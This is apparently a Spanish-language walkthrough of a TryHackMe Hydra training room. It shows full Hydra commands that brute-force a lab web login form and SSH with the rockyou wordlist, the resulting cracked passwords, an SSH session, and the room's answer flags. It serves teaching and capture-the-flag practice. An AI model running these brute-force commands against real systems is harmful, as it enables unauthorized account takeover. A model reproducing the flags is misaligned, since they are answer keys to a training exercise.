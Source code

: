 ### Task 1 - Hydra Introduction

En este apartado solo se revisa la teoría, por lo que no hay actividad extra por hacer, pasando a la tarea 2.
### Task 2 - Using Hydra

Después de arrancar la máquina, nos otorga la siguiente IP:

```
10.201.54.132
```

Ahora que también se desplegó la AttackBox, abrimos el navegador Firefox y procedemos a colocar en la barra de búsqueda la IP que nos brindaron, al cargar la página, nos encontramos con un inicio de sesión, donde nos pide el usuario y contraseña.

Por lo que después de revisar toda la teoría, se determina que lo mejor que se puede hacer es usar la herramienta de inspección en el apartado de red, se decide probar con un usuario y contraseña aleatoria, para analizar el tráfico de red que hay al momento de querer iniciar sesión. Para esto se usa lo siguiente:

```
usuario = admin
password = 1234
```

Una vez que nos marca que los datos (ya sea el usuario, la contraseña o ambos) son incorrectos, se decide revisar el login con el método POST, donde al hacer clic en él, nos pasamos a la respuesta y encontramos algo semejante a la teoría que nos explica lo de las credenciales de login, por lo que tenemos lo siguiente:

```
username=admin&password=1234
```

Inspeccionando un poco más, tenemos que el protocolo de Hydra que está manejando la página es un HTTP-FORM-POST, por lo que una vez que sabemos sobre que estamos trabajando, procedemos a abrir una ventana de terminal, donde ingresaremos el siguiente comando: `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.54.132 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v`, con lo cual obtenemos la siguiente salida:

```shell
root@ip-10-201-73-101:~# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.54.132 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -v
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-23 00:06:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.201.54.132:80/login:username=^USER^&password=^PASS^:F=incorrect
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[80][http-post-form] host: 10.201.54.132   login: molly   password: sunshine
[STATUS] attack finished for 10.201.54.132 (waiting for children to complete tests)
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
[VERBOSE] Page redirected to http://10.201.54.132/login
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-23 00:06:29
```

Como podemos ver, nos arroja un usuario y contraseña exitosos, por lo que procedemos a ingresarlos en el inicio de sesión.

Al ser correctos, nos deja acceder y nos muestra una bandera, siendo la siguiente:

```flag
THM{2673a7dd116de68e85c48ec0b1f2612e}
```

Para el caso de la pregunta dos, nos pide forzar la contraseña SSH para Molly, por lo que revisando la teoría una vez más, tenemos que el comando para lograr esto es: `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.54.132 -t4 ssh`, con el cual ahora obtenemos la siguiente salida:

```shell
root@ip-10-201-73-101:~# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.54.132 -t4 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-23 00:08:34
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.201.54.132:22/
[22][ssh] host: 10.201.54.132   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-23 00:09:29
```

Obteniendo ahora la contraseña SSH de Molly, por lo cual procedemos a probarlo en la terminal con el siguiente comando: `ssh molly@10.201.54.132`, resultando en lo siguiente:

```shell
root@ip-10-201-73-101:~# ssh molly@10.201.54.132
The authenticity of host '10.201.54.132 (10.201.54.132)' can't be established.
ECDSA key fingerprint is SHA256:XYI4H2F0uzwlMVI+2onRPqZzn/ntOPyCbRKngN14mVc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? Y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.201.54.132' (ECDSA) to the list of known hosts.
molly@10.201.54.132's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1083-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 22 Oct 2025 11:10:39 PM UTC

  System load:  0.04               Processes:             108
  Usage of /:   18.3% of 14.47GB   Users logged in:       0
  Memory usage: 20%                IPv4 address for ens5: 10.201.54.132
  Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

7 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
```

Ahora ingresamos la contraseña y procedemos con lo siguiente, donde ya cambiamos de usuario root al usuario molly:

```shell
molly@ip-10-201-54-132:~$ 
```

Revisamos el contenido del fichero donde nos encontramos con el comando **ls**:

```shell
molly@ip-10-201-54-132:~$ ls
flag2.txt
```

Por último, hacemos un **cat** para revisar el contenido del archivo flag2.txt, obtenido la bandera 2 del reto:

```shell
molly@ip-10-201-54-132:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
```

Por lo que ahora continuamos a responder las preguntas del reto.
#### Pregunta 1:

Aquí se nos pide: **Usa Hydra para forzar la contraseña web de Molly. ¿Cuál es la bandera 1?**

Respuesta:

```respuesta
THM{2673a7dd116de68e85c48ec0b1f2612e}
```
#### Pregunta 2:

Ahora se nos pide: **Usa Hydra para forzar la contraseña SSH de Molly. ¿Cuál es la bandera 2?**

Respuesta:

```respuesta
THM{c8eeb0468febbadea859baeb33b2541b}
```

Con lo cuál hemos concluido con el room de forma correcta.